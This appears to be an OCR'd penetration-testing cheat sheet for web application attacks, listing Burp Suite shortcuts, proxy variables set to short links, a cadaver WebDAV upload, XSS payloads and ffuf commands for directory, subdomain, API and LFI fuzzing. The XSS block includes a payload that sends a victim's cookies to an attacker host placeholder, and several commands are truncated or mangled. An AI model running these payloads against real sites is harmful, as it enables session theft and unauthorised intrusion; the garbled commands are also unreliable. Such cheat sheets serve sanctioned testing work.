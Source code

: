 # Page

#### Web Application Analysis

#### Burp Suite

```
Ctrl+r // Sending request to repeater Ctrl+i // Sending request to intruder Ctrl+Shift+b // base64 encoding Ctrl+Shift+u // URL decoding

Set Proxy Environment Variables

export HTTP\_PROXY=<https://tinyurl.com/3fjzq> export HTTPS\_PROXY=<https://tinyurl.com/4mk9oz>

cadaver

cadaver http\:///\<WEBDAV\_DIRECTORY>/

dav:/\<WEBDAV\_DIRECTORY>/> cd C dav:/\<WEBDAV\_DIRECTORY>/C/> ls dav:/\<WEBDAV\_DIRECTORY>/C/> put



```

####  Cross-Site Scripting (XSS)
```
alert(1) alert('XSS'); alert(document.cookies) document.querySelector('#foobar-title').textContent  =  '\<TEXT>' fetch('https\://\<RHOST>/steal?cookie=' + btoa(document.cookie)); user.changeEmail('user\@domain'); &#x20;
 ```


#### ffuf

```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http\:///FUZZ --fs - 
ffuf -w /usr/share/wordlists/dirb/common.txt -u http\:///FUZZ --fw - 
ffuf -w /usr/share/wordlists/dirb/common.txt -u http\:///FUZZ -mc 200,204,301 ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u h ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt -u http\://<
```

#### API Fuzzing
```
ffuf -u https\:///api/v2/FUZZ -w api\_seen\_in\_wild.txt -c -ac -t 250 -fc 400,4
```

#### Searching for LFI

ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http\://

#### Fuzzing with PHP Session ID

ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercas
